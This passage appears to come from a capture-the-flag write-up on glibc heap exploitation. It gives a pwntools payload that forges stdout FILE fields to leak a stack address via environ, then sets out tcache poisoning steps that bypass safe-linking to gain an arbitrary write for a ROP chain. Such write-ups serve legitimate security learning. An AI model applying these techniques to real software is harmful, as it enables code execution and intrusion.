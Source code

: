 ```c
 if (fp->_cur_column && count)  
   fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;  
 _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);  
 fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;  
 fp->_IO_write_end = (fp->_mode <= 0  
		       && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))  
		       ? fp->_IO_buf_base : fp->_IO_buf_end);  
 return count;  
}

```

To avoid the `_IO_SYSSEEK` which could break stdout, we can add
`_IO_IS_APPENDING` to `fp->_flags`. Then `_IO_SYSWRITE` is called and prints
`(_f)->_IO_write_ptr-(_f)->_IO_write_base` bytes from `(_f)->_IO_write_base`
to stdout. But that's not finished, right after we got the stack leak
`new_do_write` initializes the output / input buffer to `_IO_buf_base` except
for the output buffer which is initialized to `_IO_buf_end` (`_IO_LINE_BUF`
not present). Thus we have to make `fp->_IO_buf_base` and `fp->_IO_buf_end`
equal to valid writable pointers.

Thus we just need to:  
- `fp->_flags` = (`fp->_flags` & ~(`_IO_NO_WRITES`)) | `_IO_CURRENTLY_PUTTING` | `_IO_IS_APPENDING`.  
- `f->_IO_write_ptr` = `fp->_IO_write_end` = `f->_IO_buf_end` = `&environ + 8`.  
- `fp->_IO_write_base` = `&environ`.

Which gives:  
```py

alloc(3,  
   pwn.p64(0xfbad1800) + # _flags  
   pwn.p64(environ)*3 + # _IO_read_*  
   pwn.p64(environ) + # _IO_write_base  
   pwn.p64(environ + 0x8)*2 + # _IO_write_ptr + _IO_write_end  
   pwn.p64(environ + 8) + # _IO_buf_base  
   pwn.p64(environ + 8) # _IO_buf_end  
   , 0x100)

stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x130 - 8  
# Offset of the saved rip that belongs to frame of the op_malloc function  
pwn.log.info(f"stack: {hex(stack)}")

```

## ROPchain

Now we leaked the stack address we finally just need to achieve another
arbitrary write to craft the ROPchain onto the `op_malloc` function that
writes the user input into the requested chunk.

To get the arbitrary write we just have to use the same overlapping chunks
technique than last time, let's say we wanna write to `target` and we have
`prev` that overlaps `victim`:  
- `free(prev)` ends up in the tcachebin (0x140), it has already been consolidated, it *already* overlaps `victim`.  
- `free(victim)` ends up in the tcachebin (0x110).  
- `malloc(0x130)` returns `prev`, thus we can corrupt `victim->next` and intialize it to `(target ^ ((chunk_location) >> 12)` to bypass safe-linking.  
- `malloc(0x100)` returns `victim` and tcachebin (0x110) next free chunk is `target`.  
- `malloc(0x100)` gives a write what where.
